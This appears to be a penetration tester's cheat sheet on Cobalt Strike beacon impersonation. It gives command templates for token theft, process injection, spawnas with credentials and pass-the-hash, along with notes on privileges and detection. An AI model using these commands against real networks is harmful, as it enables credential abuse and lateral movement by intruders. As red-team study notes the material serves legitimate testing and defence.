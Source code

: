 
## Steal Token from Process

- Requires local administrator if process isn't owned by current user
- New token only used for network actions, not local
- Use `rev2self` to revert to previous token

```beacon
steal_token $PID
```

---

## Process Injection

- Requires local administrator if process isn't owned by current user
- Resultant beacon's token good for both local and network actions
- Especially useful for **process migration**

```beacon
inject $PID $ARCHITECTURE $LISTENER
```

---

## Spawn New Beacon with Credential

- Doesn't require local administrator
- Resultant beacon's token good for both local and network actions
- Generates event ID 4624 with logon type 2
- If user's profile wasn't already on machine, this adds it

```beacon
spawnas $DOMAIN\$USERNAME $PASSWORD $LISTENER
```

---

## Pass the Hash

- Requires local administrator
- Involves the patching of LSASS, which is easily detectable
- HIGH RISK
- [[cobalt-strike-user-impersonation#Overpass the Hash|Overpass the Hash]] is significantly stealthier

### Technique #1: Token over Named Pipe

```beacon
pth $DOMAIN\$USERNAME $NTLM
```

This command does the following:

1. Create fake, sacrificial logon session
2. Replace the logon session's information with the target user's domain, username, and NTLM hash
3. Executes a command in the logon session to write its token to a named pipe
	- Something like `cmd.exe \c "echo 1cbe909fe8a > \\.\pipe\16ca6d"`
4. Reads the token from the named pipe
5. Impersonates the token
6. Kills the sacrificial logon session
